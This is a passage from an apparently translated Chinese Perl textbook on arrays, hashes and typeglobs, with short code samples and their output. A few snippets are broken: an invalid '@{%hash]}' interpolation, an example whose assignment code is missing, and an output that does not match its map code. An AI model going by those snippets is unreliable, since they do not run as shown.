use integer;
$value = 257;
while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
```

$value /= 16;
}

while(@digits) {
  print pop @digits;
}

101

如你所见，**for** 循环有多种技巧可供选择；具体使用哪一种取决于你的需求。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 **foreach** 循环进行循环 | 199 |

## 打印数组

客户服务部的人打来电话，他们厌倦了收到关于你程序的投诉。"是的，数学计算没问题，但为什么它把数据矩阵打印成一个没有空格的巨大数字字符串？""哦，"你说，"我会去查一下。"

如果你只想打印一个数组，可以这样将其传递给 **print** 函数：

```
@array = ("one", "two", "three");
print "Here is the array: ", @array, ".\n";
```

*Here is the array: onetwothree.*

但是请注意，**print** 是一个列表函数，它将数组视为列表并打印列表中的所有元素，元素之间紧挨着，这就得到了 **onetwothree**。

更好的方法是使用双引号插值，将数组名包含在双引号中：

```
@array = ("one", "two", "three");
print "Here is the array: @array.\n";
```

*Here is the array: one two three.*

在这种情况下，Perl 使用默认的输出字段分隔符来插值数组，该分隔符存储在特殊变量 `$,` 中。如果你想在数组的每个元素之间显示逗号怎么办？你可以尝试将 `$,` 设置为逗号，但会得到这样的结果：

```
@array = ("one", "two", "three");
$, = ",";
print "Here is the array: ", @array, ".\n";
```

> *Here is the array: ,one,two,three,.*

更好的选择是使用 **join** 函数，这样可以从数组创建一个字符串，并显式地用逗号分隔每个数组元素与其相邻元素：

```
@array = (1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
print join(", ", @array);
```

> *1, 2, 3, 4, 5, 6, 7, 8, 9, 10*

当然，你也可以自由地使用 **for** 或 **foreach** 显式地遍历数组中的所有元素：

```
@array = ("one", "two", "three");
foreach $element (@array) {
    print "Current element = $element\n";
}
```

> *Current element = one*
> *Current element = two*
> *Current element = three*

归根结底，你可以通过简单地设置数组索引来访问数组中的每个元素，这意味着你可以按任何方式和任何格式来打印数组。

## 拼接数组

你现在已经是数组专家了，是时候添加一些*真正的*数组功能了。也就是说，是时候掌握 **splice** 函数了。

拼接数组意味着将列表中的元素添加到该数组中，可能会替换数组中现有的元素。这里使用 **splice** 函数，下面是该函数的一般工作原理：

```
splice ARRAY, OFFSET, LENGTH, LIST
splice ARRAY, OFFSET, LENGTH
splice ARRAY, OFFSET
```

**splice** 函数从数组中移除由 *OFFSET* 和 *LENGTH* 指示的元素，并用 *LIST* 的元素替换它们（如果你指定了列表）。

在列表上下文中，**splice** 函数返回从数组中移除的元素。在标量上下文中，**splice** 函数返回最后移除的元素（如果没有移除任何元素，则返回 Perl 的 **undef** 值）。如果省略 *LENGTH*，**splice** 会从 *OFFSET* 开始移除到数组末尾的所有内容。

让我们来看一个例子。在这种情况下，我将一个新元素 "three" 拼接到一个已经包含 "one" 和 "two" 的数组上：

```
@array = ("one", "two");
splice(@array, 2, 0, "three");
print join(", ", @array);
```

one, two, three

在下一个例子中，我将一个全新的数组拼接到旧数组的末尾：

```
@array = ("one", "two");
@array2 = ("three", "four");
splice(@array, 2, 0, @array2);

print join(", ", @array);
```

one, two, three, four

你也可以在拼接时替换数组中的元素。在下一个例子中，我将第一个数组中的最后一个元素 "two" 替换为整个第二个数组，该数组包含 "two"、"three" 和 "four"：

```
@array = ("one", "two");
@array2 = ("two", "three", "four");
splice(@array, 2, 1, @array2);
print join(", ", @array);
```

one, two, three, four

如你所见，**splice** 是数组编辑器，让你完全控制任何数组的私密细节。掌握了 **splice**，你就掌握了 Perl 中的数组操作。

## 反转数组

要反转数组，你只需使用 **reverse** 函数：

```
@reversed = reverse @array;
```

这个例子展示了 **reverse** 的实际应用：

```
@a1 = (1, 2, 3, 4, 5, 6);
@a2 = reverse @a1;

print join (", ", @a2);
```

6, 5, 4, 3, 2, 1

当你将元素推入数组后想要反转它们时，**reverse** 函数特别有用。在之前的十进制到十六进制转换示例中，我通过从名为 **@digits** 的数组中依次弹出元素来反转数字，但如果该示例不是关于推入和弹出的，使用 **reverse** 会更简单：

```
use integer;

$value = 258;

while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

print reverse @digits;
```

102

请注意，你也可以使用切片来反转数组的一部分：

```
@array = (1, 2, 3, 4, 5, 6);
@array[2 .. 4] = reverse @array[2 .. 4];

print join (", ", @array);
```

1, 2, 5, 4, 3, 6

## 排序数组

你已经准备好了 **@employee** 数组——它显示了哪些员工将获得加薪，哪些将被解雇——你准备打印它。员工们正在等待。但是，突然大老板指出名单上有数万名员工，所以你不应该按字母顺序排列吗？你说，"哎呀！"

要对数组进行排序，你使用 **sort** 函数：

```
sort SUBNAME LIST
sort BLOCK LIST
sort LIST
```

该函数对给定的 *LIST* 进行排序并返回排序后的列表。*SUBNAME* 给出子程序的名称，该子程序返回比较两个数据项的结果，方式与 **<=>** 和 **cmp** 运算符相同。（有关这些运算符的更多详细信息，请参见第 4 章。）你也可以将比较代码放在 *BLOCK* 中。如果不指定 *SUBNAME* 或 *BLOCK*，**sort** 会按标准字符串比较顺序对列表进行排序。

下面的例子只是按标准字符串比较顺序对数组进行排序：

```
@sorted = sort @array;
```

这里有一个例子，我改用数值比较运算符 **<=>**：

```
@sorted = sort {$a <=> $b} @array;
```

你可以进行各种花哨的排序；这里，我按降序对数组进行排序：

```
@sorted = sort {$b <=> $a} @array;
```

而且，你也可以提供自己的子程序来进行比较：

```
@array = (6, 5, 4, 3, 2, 1);

sub myfunction
{
    return (shift(@_) <=> shift(@_));
}

print join(", ", sort {myfunction($a, $b)} @array);
```

```
1, 2, 3, 4, 5, 6
```

| 相关解决方案： | 所在页码： |
|-------------------|----------------|
| 排序列表     | 87             |

## 确定数组元素是否已初始化

从 Perl v5.6.0 开始，你可以在数组元素上使用 **exists** 和 **delete** 函数。例如，你可以使用 **exists** 函数来检查数组元素是否已初始化：

```
@a = (0, 1, 2, 3);
if (exists($a[4])) {
    print "Element has been initialized.";
}else{
    print "Element has not been initialized.";
}

Element has not been initialized.
```

## 删除数组元素

从 Perl v5.6.0 开始，你可以在数组元素上使用 **exists** 和 **delete** 函数。例如，你可以使用 **delete** 函数从数组中删除一个元素，如下所示——注意我使用 **exists** 函数来检查该元素是否真的被删除了：

```
@a = (0, 1, 2, 3, 4);
print "Deleting $a[4].\n";
delete $a[4];

if (exists($a[4])) {
    print "Element is initialized.";
}else{
    print "Element is not initialized.";
}

Deleting $a[4].
Element is not initialized.
```

## 读取命令行参数：@ARGV 数组

大老板对你的新数据库程序 SuperDuperDataCrunch 很满意，它完全用 Perl 编写。"但是，"大老板说，"它只能打开一个数据库文件。你必须让用户指定要打开的文件。让他们在命令行上指定。""好的，"你想，"现在该怎么做呢？"

当 Perl 脚本运行时，命令行上传递给它的单词存储在内置数组 **@ARGV** 中，你可以像从任何数组中一样从中恢复它们（例如，使用 **shift**、**pop** 或你喜欢的任何方式）。

看看这个例子，它展示了如何使用 **@ARGV** 来恢复命令行参数。在这种情况下，我将编写一个脚本 args.pl，它仅由这一行代码组成：

```
print join(" ", @ARGV);
```

现在，当你在命令行上向脚本传递参数时，脚本会按顺序打印它们：

```
%perl args.pl Now is the time!
```

*Now is the time!*

你也可以使用 **Getopt** 模块来扫描命令行——即 **@ARGV**——以查找自定义开关。例如，假设你想在脚本中启用三个命令行开关：**-p**、**-M** 和 **-N**。你可以使用 **getopt** 函数来获取这些开关的设置，该函数会扫描 **@ARGV** 中的开关：

```
use Getopt::Std;

getopt('pMN');
```

当你在 **getopt** 中使用 **-p** 这样的开关时，会定义一个相应的变量——**$opt_p**——它保存该开关的设置。在这种情况下，我将显示各种允许开关的设置：

```
use Getopt::Std;

getopt('pMN');

print "-p switch: $opt_p, -M switch: $opt_M, -N switch: $opt_N";
```

## 创建哈希

新手程序员又遇到了麻烦。"我就是不习惯用数字来思考一切，"新手说，"我已经把所有的数据都存在数组里了，但我总是搞混：星期几的索引是 491 还是 419？" "听着，"你说，"使用哈希吧。有了哈希，你可以用像 **'weekday'** 这样的文本字符串键来索引你的数据。问题就解决了。"

哈希也被称为*关联数组*。这个名称可能更具描述性，因为你是使用与该值相关联的*键*（即文本字符串）来检索值，而不是使用数字索引。

因为你是通过键（而不是数字）来引用哈希中的值，所以将数据存储在哈希中通常比存储在数组中更直观。然而，请注意，设置遍历哈希数据的循环可能更困难，原因恰恰在于你不能直接用数字循环索引来索引哈希中的数据。

哈希变量的名称以 % 为前缀，如下所示，我设置了一个空哈希：

```
%hash = ();
```

## 使用哈希

与数组一样，在使用单个哈希元素时，你使用 $ 前缀解引用器。例如，以下是我如何将一些项目放入新的哈希中。(**fruit** 是哈希中的第一个键，它对应值 **apple**；**sandwich** 是第二个键，对应值 **hamburger**；依此类推。)

```
%hash = ();

$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
```

请注意，你使用花括号 { 和 } 来解引用哈希元素，而不是像数组那样使用方括号 [ 和 ]。

此时，你可以通过键值这样引用哈希中的单个元素：

```
%hash = ();

$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
print $hash{sandwich};
```

```
hamburger
```

通过这种方式，我们创建了一个包含键以及与这些键相关联的值的哈希。

你不需要先创建一个空哈希才能开始填充它。如果你开始处理一个尚不存在的哈希，Perl 会自动创建它（这是 Perl 为方便程序员而努力的一部分，让事情按你预期的方式运作）。因此，这段代码与前面的代码效果相同：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
print $hash{sandwich};
```

```
hamburger
```

你可能还记得，Perl 在读取新数组的元素时会忽略空白字符，这使得如果你有大量的数组元素，像这样的结构就很方便：

```
@array = (
    "one", "two", "three",
    "four", "five", "six",
);
```

同样，你可以像这样创建一个哈希，指定要填充哈希的键/值对：

```
%hash = (
    'fruit'   , 'apple',
    'sandwich' , 'hamburger',
    'drink'   , 'bubbly',
);
print "$hash{'fruit'}\n";
```

> apple

你也可以使用 **qw** 来指定键/值对，你会经常在代码中看到它用于此目的：

```
%hash = qw(
    fruit    apple
    sandwich hamburger
    drink    bubbly
);
print "$hash{'fruit'}\n";
```

> apple

你还可以将键/值对指定为裸词，在设置哈希和引用哈希值时都可以这样做（除非键超过一个单词长，这种情况下你必须使用引号）：

```
%hash = (
    fruit   , apple,
    sandwich , hamburger,
    drink   , bubbly,
);
print "$hash{fruit}\n";
```

> apple

实际上，逗号的同义词是 **=>**，使用这个运算符可以使键和值之间的关系更清晰。因此，程序员经常像这样编写哈希创建语句：

```
%hash = (
    fruit   => apple,
    sandwich => hamburger,
    drink    => bubbly,
);
print "$hash{fruit}\n";
```

*apple*

请注意，**=>** 运算符并没有什么特殊功能；它实际上与逗号运算符完全相同（除了一点——它强制其左侧的任何单词被解释为字符串）。例如，语句：

```
print "x"=>"y"=>"z";
```

等同于：

```
print "x", "y", "z";
```

你可以使用包含空格的键，比如在这种情况下，我创建一个键为 **'ice cream'** 的哈希元素：

```
$hash2{cake} = chocolate;
$hash2{pie} = blueberry;
$hash2{'ice cream'} = pecan;
```

你可以按照预期的方式引用这个项目：

```
$hash{cake} = chocolate;
$hash{pie} = blueberry;
$hash{'ice cream'} = pecan;

print "$hash{'ice cream'}\n";
```

*pecan*

你也可以使用双引号插值来创建哈希键，或者当然也可以直接使用变量：

```
$value = $hash{$key};
```

哈希为存储数据提供了强大的技术，但请记住，你不能直接用数字索引来引用哈希中的值。这并不意味着你不能遍历哈希；请参阅本章后面的“遍历哈希”主题。

## 使用哈希

> "好的，"新手程序员说，"我已经创建了我的新哈希，并用数据填充了它。一切都准备好了。我只有一个问题：我如何再把数据从哈希中取出来？" "没问题，"你说，"就使用你设置的键。"

创建哈希后，你可以通过键来寻址哈希中的值，从而使用它，如下所示：

```
$value = $hash{$key};
```

此外，你只需使用赋值运算符就可以将元素放入哈希中，如前面主题中的示例所示：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
print $hash{sandwich};
```

*hamburger*

如果你在列表上下文中使用哈希，它会将所有键/值对插入到列表中：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
print join(" ", %hash);
```

*drink bubbly sandwich hamburger fruit apple*

这个例子说明了一个重要的点：哈希中的项目*不是*按你插入的顺序存储的。Perl 为了效率而以自己的顺序存储它们，因为它假设你将通过键来检索这些项目，而不是依赖它们的存储顺序。

> *提示：如果你确实想能够按照插入的顺序检索存储在哈希中的项目，可以使用 Perl 的 **Tie::IxHash** 模块。要对哈希排序，请参阅本章后面的“哈希排序”主题。*

如果你在标量上下文中使用哈希，如果哈希中出现任何键/值对，它会返回一个真值。

> **提示：** Perl 以“桶”的形式分配哈希数据的空间，哈希在标量上下文中的实际返回值（如果哈希中出现任何键/值对）实际上是一个字符串，其中包含已使用的桶数以及已分配的桶数，两者用斜杠分隔（例如 **"200/250"**）。你可以检查这个字符串，看看 Perl 处理你的哈希的效率如何。

使用哈希不像在循环中使用数组那样方便，因为你不能使用一个易于递增的数字索引来处理哈希。然而，Perl 提供了各种方法来改善这种情况，正如我们将在本章后面的“遍历哈希”主题中看到的。其中一种方法是使用 **each** 函数，它返回连续的键/值对：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}
```

*drink => bubbly*
*sandwich => hamburger*
*fruit => apple*

另一种在循环中处理哈希的方法是使用 **keys** 函数，它返回哈希中键的列表，使这些键几乎像数字索引一样易于处理：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $key (keys %hash) {
    print $hash{$key} . "\n";
}
```

*bubbly*
*hamburger*
*apple*

更多信息，请参阅本章后面的“遍历哈希”主题。

| 相关解决方案： | 所在页： |
| --- | --- |
| **GetOpt** 解释命令行开关 | 622 |


## 向哈希中添加元素

要向哈希中添加新元素（一个键/值对），只需使用赋值运算符即可，如下所示，我向名为 **%hash** 的新哈希中添加两个新元素：

```
%hash = ();
```

```
$hash{$key} = $value;
$hash{$key2} = $value2;
```

你可以使用列表赋值来创建哈希，也可以使用列表赋值来添加元素，就像这个例子中我向 **%hash** 添加一个新的键/值对：

```
%hash = (
    fruit   =>  apple,
    sandwich =>  hamburger,
    drink   =>  bubbly,
);
```

```
%hash = (%hash, dressing, 'blue cheese');
print "$hash{dressing}\n";
```

```
blue cheese
```

这个例子之所以有效，是因为列表运算符 `()` 首先将 **%hash** 插值为一个列表，然后该列表仅仅扩展了一个键/值对。

特别是因为我在列表赋值中使用哈希之前就将其插值，所以在此情况下我无法使用快捷运算符 **+=**。（有关 **+=** 运算符的更多详细信息，请参见第 4 章。）

```
%hash += (dressing, 'blue cheese');    # 行不通！
```

| 相关解决方案： | 所在页： |
| --- | --- |
| 处理赋值 =、+=、-= 等 | 172 |

## 判断哈希是否包含特定的键

新手程序员又遇到麻烦了。"我一年前写的这个哈希，"新手说，"记不清里面是否有一个名为 'lunchtime' 的键了。但是，我不想在代码中检查它，因为如果该键不存在，就会产生错误。我该怎么办？""没问题，"你说，"使用 **exists** 函数。"

**exists** 函数告诉你某个特定的键是否存在于哈希中。请注意，它只表明哈希是否具有某个键；该键引用的实际值可能是未初始化的（因此被设置为 **undef**）。

例如，我使用 **exists**，如下所示，来检查 **%hash** 中的一个键：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

if (exists($hash{'vegetable'})) {
    print "Key is in the hash.";
} else {
    print "Key is not in the hash.";
}
```

*Key is not in the hash.*

要确定哈希中的元素是否已定义，你需要使用 **defined** 函数：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

if (defined($hash{'vegetable'})) {
    print "Element is defined.";
} else {
    print "Element is not defined.";
}
```

*Element is not defined.*

## 删除哈希元素

大老板心情不错。"我刚解雇了史密斯和琼斯，"大老板说，"立刻删除 **%employees** 哈希中他们的条目。""我该怎么做？"你问道。大老板皱起眉头问："我是不是也得解雇你？""大概不会，"你说，"我去查查 *黑皮书*。"

要删除哈希中的一个元素，只需使用 **delete** 函数。（不要将哈希值设置为 **undef**，因为那是未初始化的哈希值所持有的值，这意味着它是一个完全合法的哈希值。）

这是一个我删除一个哈希元素，然后使用 **exists** 函数检查其是否存在的例子：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

delete($hash{'fruit'});

if (exists($hash{"fruit"})) {
    print "Key exists.";
} else {
    print "Key does not exist.";
}
```

> *Key does not exist.*

> **警告！** *那么，当一个值从哈希中删除后，你如何再获取它呢？你无法获取。一旦消失，它就永远消失了；所以，请务必小心。*

## 遍历哈希

"好了，"编程正确性沙皇说，"你的 **%employees** 哈希看起来没问题。给我看看格式化和打印这些数据的代码。""但是，"你说，"它是一个哈希。我怎么遍历哈希呢？"编程正确性沙皇说："去查 *黑皮书*。你能找到 *很多* 方法。"

为什么在循环方面，哈希没有像数组那样被广泛使用？主要原因是索引哈希的方式——使用键——在程序控制下不如可以轻松递增或递减的数字那样容易使用。此外，存储在哈希中的数据通常不像存储在数组中的数据那样同质。（例如，程序员经常将哈希用作迷你数据库，存储诸如员工姓名、身份证号、电话号码等不同的数据项，在这些通常更适合被认为是多字段记录而非数组条目的数据实体中。）然而，在 Perl 中你可以用相当多的方式遍历哈希。

虽然我在本章前面讨论了遍历数组，但我还没有详细讨论循环；你会发现循环在第 5 章有全面讨论。和数组一样，哈希也是程序员经常想在循环中使用的数据结构，所以我会在这里介绍这部分内容，因为许多问题都是哈希特有的。如果这个话题对你来说不太合适，可以先看看第 5 章，然后再回来。（毕竟，这本书的设计更像是问题解决器，而不是按顺序阅读的教科书，而且很有可能你已经知道 Perl 中循环是如何工作的。）

假设你想从哈希中提取完整的元素——即键/值对。在这种情况下，你可以使用 **each** 函数。这是一个例子。首先创建一个哈希：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
```

现在，我可以像这样使用列表赋值和 **each** 函数从哈希中获取键/值对：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}
```

```
drink => bubbly
sandwich => hamburger
fruit => apple
```

注意 **each** 函数的擅长之处：你用它来获取哈希中每个元素的键和值设置。

另请注意，哈希值的出现顺序与我添加它们的顺序不同，因为 Perl 使用自己的内部方法保存哈希元素，这些方法针对内存效率和易于访问进行了优化。

> **提示：** 如果你真的想能够按照插入顺序检索存储在哈希中的项目，你可以使用 Perl 的 **Tie::IxHash** 模块。要对哈希排序，请参阅本章后面的"对哈希排序"主题。

接下来，你可以使用 **foreach** 循环来遍历哈希中的元素。要返回哈希中键的列表，从而为 **foreach** 提供可遍历的内容，你可以使用 **keys** 函数：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $key (keys %hash) {
    print $hash{$key} . "\n";
}
```

*bubbly*
*hamburger*
*apple*

**keys** 函数在你处理哈希时非常有用；因为 **keys** 返回哈希键的列表，它使得遍历哈希几乎与遍历数组索引一样简单。

除了获取哈希中的键，你还可以使用 **values** 函数，它允许你设置像这样的循环来显示哈希中的值：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $value (values %hash) {
    print "$value\n";
}
```

*bubbly*
*hamburger*
*apple*

请注意，像往常一样，哈希值的出现顺序与插入顺序不同。

而且，别忘了像 **map** 和 **grep** 这样的函数，你也可以将它们与 **keys** 或 **values** 等函数返回的列表一起使用：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

print map "$_ -> $hash{$_}\n", keys %hash;
```

```
drink => bubbly
sandwich => hamburger
fruit => apple
```

如你所见，Perl 为程序员提供了遍历哈希的方法，尽管你不能像使用数组那样使用数字循环索引直接访问哈希元素。**keys**、**values** 和 **each** 函数在此为你提供了强大的功能。

## 打印哈希

关键时刻到了——是时候打印程序 SuperDuperDataCrunch 中存储在哈希里的数据了。你停顿了一下，问道："这里有哪些选项？"

在 Perl 中，你可以用相当多的方式打印哈希。例如，你可以通过在双引号中插值来打印哈希，如下所示：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

print "@{%hash]}\n";
```

*drink bubbly sandwich hamburger fruit apple*

请注意，前面的示例只是将哈希打印为它在列表上下文中出现的样子——即一个接一个的键/值对。更好的选择可能是使用 **each** 函数，如下所示：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

while (($key, $value) = each %hash ) {
    print "$key: $value\n";
}
```

*drink: bubbly*
*sandwich: hamburger*
*fruit: apple*

如果你想对打印的值进行排序呢？你可以使用 **sort** 函数，正如你将在"对哈希排序"主题中看到的：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
```

```
foreach $key (sort keys %hash) {
    print "$key => $hash{$key}\n";
}
```

```
drink => bubbly
fruit => apple
sandwich => hamburger
```

此外，你还可以找到许多其他遍历哈希的方法，例如使用 **map** 和 **grep**。有关更多技术，请参阅本章前面的“遍历哈希”主题。

## 反转哈希的键和值

技术支持部门的人打来电话。“我们听说你是这里的哈希专家，”他们说。“没错，”你谦虚地承认。“嗯，我们有个问题想请教你。如何将一个哈希反转，使所有的键变成值，值变成键？”“真巧你问这个，”你说。“不知道怎么做，就不能算真正的哈希专家。其实这很简单，只需使用 **reverse** 函数即可。”

我们最初在处理数组时见过 **reverse** 函数，它反转数组中所有元素的顺序。在哈希中，它会反转键和值。看看下面这个使用前面主题中创建的哈希的例子：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
```

```
%reversed = reverse %hash;
```

```
foreach $key (sort keys %reversed) {
    print "$key => $reversed{$key}\n";
}
```

```
apple => fruit
bubbly => drink
hamburger => sandwich
```

就是这样。现在键变成了值，值变成了键。这里真正发生的是，**reverse** 像往常一样，将其参数视为一个列表，并简单地反转该列表。当你将该列表赋值给一个新的哈希时，Perl 会创建一个键和值都反转的哈希。

## 排序哈希

是时候打印 **%employees** 哈希了，显示谁将被提升，谁将被解雇。但是，由于你的公司有超过 40,000 名员工，首先按字母顺序排列哈希可能会有所帮助。

你可以使用 **sort** 函数对哈希进行排序；这里，我按键对哈希进行 **sort**：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $key (sort keys %hash) {
    print "$key => $hash{$key}\n";
}
```

上述代码的结果如下：

*drink => bubbly*
*fruit => apple*
*sandwich => hamburger*

与 **sort** 的通常用法一样，你可以提供自己的排序函数：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $key (sort {myfunction($a, $b)} keys %hash) {
    print "$key => $hash{$key}\n";
}

sub myfunction
{
    return (shift(@_) cmp shift(@_));
}
```

```
drink => bubbly
fruit => apple
sandwich => hamburger
```

如果你的排序函数涉及大量耗时的代码，你应该考虑使用 **map** 将其一次性应用到哈希上，以创建一个新的哈希（或一个数组）；然后，你可以对该哈希执行简单的 **sort**，并将结果 **map** 回原始哈希。

当然，你也可以按键排序，或者按**值**排序哈希：

```
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;

foreach $value (sort values %hash) {
    print "$value\n";
}
```

```
apple
bubbly
hamburger
```

| 相关解决方案 | 所在页码 |
| --- | --- |
| 排序列表 | 87 |

## 合并两个哈希

大老板又打电话来了。“我刚刚收购了 BigBigDataCo，”他兴高采烈地说。“那边的人会发来一个员工记录的哈希。立即将其合并到我们的 **%employees** 哈希中。”“好的，”你挂断电话说道。“那么，我该如何合并哈希？”

要合并两个哈希，最简单的方法是使用列表赋值。例如，假设你有这两个哈希：

```
$h1{fruit} = apple;
$h1{sandwich} = hamburger;
$h1{drink} = bubbly;

$h2{cake} = chocolate;
$h2{pie} = blueberry;
$h2{'ice cream'} = pecan;
```

## 第3章 数组和哈希

你可以用列表赋值的方式合并这两个哈希，如下所示：

```
%h3 = (%h1, %h2);
print $h3{'ice cream'};
```

pecan

请注意，你不能像处理数组那样使用 **push** 来合并哈希。

## 在列表赋值中使用哈希和数组

你可以在列表赋值中使用哈希和数组。如果在赋值右侧使用多个哈希或数组，由于它们会被内插，所以不会有任何问题，如前面主题的这个例子所示：

```
$h1{fruit} = apple;
$h1{sandwich} = hamburger;
$h1{drink} = bubbly;

$h2{cake} = chocolate;
$h2{pie} = blueberry;
$h2{'ice cream'} = pecan;
```

我可以用列表赋值的方式合并这两个哈希：

```
%h3 = (%h1, %h2);
print $h3{'ice cream'};
```

pecan

但是，如果你要将元素赋值给一个本身包含数组或哈希的列表，请小心。在 Perl 中，当你向数组或哈希赋新元素时，它们可以自动增长，因此只有当数组或哈希是列表中的*最后一个*项目时，才应在列表赋值的左侧使用它。否则，数组或哈希只会吸收你认为要赋值给列表中数组或哈希后面项目的元素。

以下示例展示了如何赋值给一个包含两个标量变量和一个数组的列表（请注意，我确保数组是列表中的最后一个元素）：

```
print "$variable2\n";
print "@array\n";

1
2
3 4 5 6 7 8
```

## 为哈希预分配内存

关于 40,000 名员工的信息出现在 **%employees** 哈希中，这是大老板用来存储谁被解雇、谁被提升的数据的哈希。逐个向该哈希添加元素会使程序运行缓慢。难道不能以某种方式为哈希预分配所需的内存吗？

是的，从 Perl 5.004 开始就可以。你所要做的就是将元素数量（即键/值对）赋给 **keys(%hashname)**。在这个例子中，我指定 **%employees** 哈希将有 40,000 个元素：

```
keys(%employees) = 40_000;
```

现在，你可以像往常一样自由使用 **%employees**：

```
keys(%employees) = 40_000;

$employees{'Fred'} = 'fired';
$employees{'Tom'} = 'promoted';

while (($name, $action) = each %employees) {
    print "Dear $name, you have been $action!\n"
}
```

> Dear Fred, you have been fired!
> Dear Tom, you have been promoted!

## 使用类型glob（Typeglobs）

编程正确性沙皇正在检查你的代码。“这些星号是干什么的？”他问道。“那是类型glob，”你说。“什么？”沙皇问。“让我解释一下，”你说。

类型glob在Perl中的工作方式类似于别名。也就是说，你可以使用类型glob将一个变量名（例如 **data**）绑定到一个新的变量名（例如 **alsodata**）。这使得所有使用新名称的变量——**$alsodata**、**@alsodata**、**%alsodata** 等——引用与使用原名称的变量相同的数据——**$data**、**@data**、**%data** 等。（例如，**$alsodata** 将引用与 **$data** 相同的值，依此类推。）

在这个例子中，我设置了两个变量，**$data** 和 **@data**：

```
$data = "Here's the data.";
@data = (1, 2, 3);
```

然后我将名称 **alsodata** 作为名称 **data** 的别名：

```
$data = "Here's the data.";
@data = (1, 2, 3);

*alsodata = *data;
```

现在，我可以使用 **$alsodata** 作为 **$data** 的同义词：

```
$data = "Here's the data.";
@data = (1, 2, 3);

*alsodata = *data;

print "$alsodata\n";
print @alsodata;
```

```
Here's the data.
123
```

类型glob赋值真正做的是将一个名称的完整符号表条目复制到新名称的符号表条目中。（Perl将与一个名称相关的所有数据类型（例如 **$data**、**%data** 等）的名称存储在该名称的符号表条目中。）你可以将类型glob中的*视为一种通配符，代表所有数据类型（$、%等）。

如果你想了解更多关于此过程的细节，请参阅下一个主题“类型glob作为符号表条目”。

使用类型glob时，不必复制整个符号表条目。如果你只为一种数据类型（如标量类型）赋值一个引用，那么你只将该类型别名到新的类型glob，如下所示。（有关引用的更多细节，请参见第9章。）：

```
$data = "Here's the data.";
@data = (1, 2, 3);

*alsodata = \$data;				#alias the scalar part only
```

在这种情况下，我将 **$data** 别名化为 **$alsodata**，但*没有*将 **#data** 别名化为 **#alsodata**，也没有将 **@data** 别名化为 **@alsodata**，等等。换句话说，以下代码可以正常工作：

```
print "$alsodata\n";

Here's the data.
```

但是，这个例子就不行了：

```
print @alsodata;
```

类型全局（typeglob）的更多用途包括将文件句柄传递给函数、创建新的文件句柄以及制作文件句柄的本地副本。你可以使用类型全局来保存文件句柄，像这样：

```
$filehandle = *STDOUT;
```

## 类型全局作为符号表条目

Perl 将变量名存储在符号表中，每个符号表条目都是一个类型全局。事实上，你可以将类型全局理解为类似哈希的结构，其值是对变量实际数据的引用。

这些哈希中的键以大写字母书写，对应各种可能的数据类型，如 **ARRAY**、**HASH** 等。如果你愿意，可以直接利用这一点来解析 Perl 符号表。例如，如果你有一个变量，其值设置为 **5**，

```
$variable = 5;
```

那么 **\*variable** 就是该变量的类型全局名，而 **\*variable{SCALAR}** 是对 **$variable** 中值的引用。（有关引用的更多细节，请参阅第 9 章。）

你可以使用 Perl 的解引用操作符 **$**（我们将在第 9 章中介绍），通过变量的符号表条目来获取 **$variable** 中的实际值：

```
$variable = 5;
print ${*variable{SCALAR}};

5
```

## 第 4 章

### 操作符与优先级

| 如果你需要立即了解以下问题的解决方案： | 请参阅页面： |
|---|---|
| 最高优先级：项和左向列表操作符 | 147 |
| 使用箭头操作符：**->** | 148 |
| 处理自增和自减：**++** 和 **--** | 149 |
| 处理幂运算：**\*\*** | 150 |
| 使用符号一元操作符：**!**、**-**、**~** 和 **\\** | 151 |
| 使用绑定操作符：**=~** 和 **!~** | 152 |
| 处理乘法和除法：**\*** 和 **/** | 153 |
| 处理取模和重复：**%** 和 **x** | 154 |
| 处理加法、减法和连接：**+**、**-** 和 **.** | 155 |
| 使用移位操作符：**<<** 和 **>>** | 156 |
| 使用命名一元操作符 | 156 |
| 使用文件测试操作符 | 157 |
| 使用关系（比较）操作符 | 159 |
| 使用相等性操作符 | 160 |
| 比较浮点数值 | 162 |
| 按位**与**操作：**&** | 162 |
| 按位**或**操作：**\|** | 163 |
| 按位**异或**操作：**^** | 164 |
| 按位字符串操作符 | 166 |
| 使用 C 风格逻辑**与：&&** | 167 |
| 使用 C 风格逻辑**或：\|\|** | 168 |
| 使用范围操作符：**..** | 170 |
| 使用条件操作符：**?:** | 171 |
